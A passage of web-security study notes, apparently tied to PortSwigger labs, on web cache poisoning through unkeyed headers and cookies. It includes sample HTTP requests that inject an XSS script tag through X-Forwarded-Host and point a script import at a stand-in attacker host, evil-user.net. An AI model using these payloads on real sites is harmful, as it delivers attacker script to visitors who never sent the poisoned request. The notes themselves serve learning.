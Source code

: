 	```
	HTTP/1.1 200 OK
	Cache-Control: public
	<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
	```
2. here, the `X-Forwarded-Host` header is being used to dynamically generate an Open Graph image URL which is reflected in the response
	- `X-Forwarded-Host` is often unkeyed
		- can use XSS payload to XSS victims like such:
		```
		GET /en?region=uk HTTP/1.1
		Host: innocent-website.com
		X-Forwarded-Host: a."><script>alert(1)</script>"
		```

		```
		HTTP/1.1 200 OK
		Cache-Control: public
		<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
		```
# Web Cache Poisoning To Exploit Unsafe Handling Of Resource Imports 
- some websites use unkeyed headers to dynamically generate URLs for importing resources
	- eg. externally hosted JavaScript files 
- if attacker changes the value of the appropriate header to a domain that they control, they can manipulate the URL to point to their own malicious JavaScript file instead
- if the response containing this malicious URL is cached, attacker's JavaScript would be imported and executed in the browser session of the victim whose request has a matching cache key

	```
	GET / HTTP/1.1
	Host: innocent-website.com
	X-Forwarded-Host: evil-user.net
	User-Agent: Mozilla/5.0 Firefox/57.0


	HTTP/1.1 200 OK
	<script src="https://evil-user.net/static/analytics.js"></script>
	```
Lab: [Web cache poisoning with an unkeyed header](../../../../writeups/portswigger/Web%20cache%20poisoning%20with%20an%20unkeyed%20header.md)
# Web Cache Poisoning To Exploit Cookie-Handling Vulnerabilities
- cookie might be used to dynamically generate content in a response
	```
	GET /blog/post.php?mobile=1 HTTP/1.1
	Host: innocent-website.com
	User-Agent: Mozilla/5.0 Firefox/57.0
	Cookie: language=pl;
	Connection: close
	```
- cookie header might not be in the cache key
Lab: [Web cache poisoning with an unkeyed cookie](../../../../writeups/portswigger/Web%20cache%20poisoning%20with%20an%20unkeyed%20cookie.md)
# Multiple Headers To Exploit Web Cache Poisoning Vulnerabilities
- some require crafting a request that manipulates multiple unkeyed inputs
	- eg. if a website requires secure communication using HTTPS and the request that uses another protocol is received, the website will dynamically generate a redirect to itself that does use HTTPS
		- you may find an **Open redirect** if you set `X-Forwarded-Host` to a domain controlled by you and `X-Forwarded-Proto` to `http`